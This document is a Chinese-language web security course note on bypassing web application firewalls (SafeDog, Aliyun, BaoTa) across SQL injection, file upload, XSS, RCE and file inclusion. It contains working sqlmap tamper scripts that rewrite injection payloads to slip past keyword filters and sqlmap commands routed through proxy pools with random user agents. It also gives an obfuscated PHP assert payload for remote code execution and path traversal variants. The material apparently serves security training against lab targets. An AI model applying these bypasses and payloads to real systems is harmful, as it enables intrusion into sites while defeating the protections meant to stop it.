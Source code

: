 <a name="vvOWn"></a>
# 一、思维导图
![waf绕过-小迪安全.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647412832696-1bd484a8-679c-43b2-b41c-0e1b54984746.png#clientId=ueec5eb81-dbca-4&from=drop&id=u66a297f1&originHeight=2370&originWidth=1192&originalType=binary&ratio=1&rotation=0&showTitle=false&size=264839&status=done&style=none&taskId=u80526706-c093-4e65-a934-558f5ae0f0e&title=)
<a name="cL9jd"></a>
# 二、今日内容
![](https://cdn.nlark.com/yuque/0/2022/webp/2476579/1647413019478-b1c42c81-5dc0-4fea-8428-d141fa701e1a.webp#clientId=ub0989269-2c3a-4&from=paste&id=u78ef4403&originHeight=442&originWidth=942&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u0a89965c-feaf-4b03-8527-d47e984090e&title=)
<a name="eZJGa"></a>
# 三、SQL注入
使用如sqlmap等工具注入时，为防止CC拦截，修改数据包us头模仿爬虫，或使用代理池

安全狗：参考之前payload

Aliyun：基本修改指纹即可

宝塔：匹配关键字，包括“/*”，注入语句的每个“/*”都改为“%00/*”

sqlmap语句示范：sqlmap --proxy="http://127.0.0.1:8080" --tamper="waf.py" --random-agent

sqlmap也可以用“--user-agent”指定ua 

代理池小迪老师推荐：[https://www.kuaidaili.com/pricing/#tps](https://www.kuaidaili.com/pricing/#tps)<br />安全狗payload文章：[https://www.cnblogs.com/-mo-/p/11677524.html](https://www.cnblogs.com/-mo-/p/11677524.html)<br />**waf-dog.py小迪老师课堂提供**
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""


from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload,**kwargs):
    retVal =""
    if payload:
        payload = payload.replace("union","%23a%0aunion")
        payload = payload.replace("select","/*!4457select*/")
        payload = payload.replace("%20","%23a%0a")
        payload = payload.replace(" ","%23a%0a")
        payload = payload.replace("database()","database%23a%0a()")
    return payload

```
网友提供版本
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'

    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0

    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue

            retVal += payload[i]

    return retVal
```
```vue
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --random-agent
```

宝塔防火墙在安全狗的基础上增加了%00截断<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647417529337-ccc2b6b9-3d74-4af3-b951-74da3b939281.png#clientId=ub0989269-2c3a-4&from=paste&id=u7798afc3&originHeight=236&originWidth=1079&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ud13608f4-2ce2-418c-a918-15d5cf7a3c3&title=)
<a name="pWMQb"></a>
# 四、文件上传
php 截断，参考之前payload上传，绕过waf<br />和前面文件上传专题的绕过方法一样。
<a name="ihkt1"></a>
# 五、XSS跨站
利用xss trike绕过，加上--timeout或者--proxy绕过cc

xss trike项目地址:[https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
<a name="FEUI1"></a>
# 六、RCE执行
加密编码绕过？算法可逆？关键字绕过？提交方法？各种测试?
```vue
txt=$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```
<a name="TJ4nW"></a>
# 七、文件包含
以下几种：..\ ..../ ..\.\等<br /> <br />涉及资源：

- 宝塔官网：https://www.bt.cn/
- safedog官网：[http://free.safedog.cn/website_safedog.html](http://free.safedog.cn/website_safedog.html)

参考：https://www.cnblogs.com/darkerg/p/14779017.html<br />[WAF攻防实战笔记v1.0--Bypass.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/34523688/1696908472961-afb4da69-437f-4b5f-8172-431da73eaa1c.pdf)

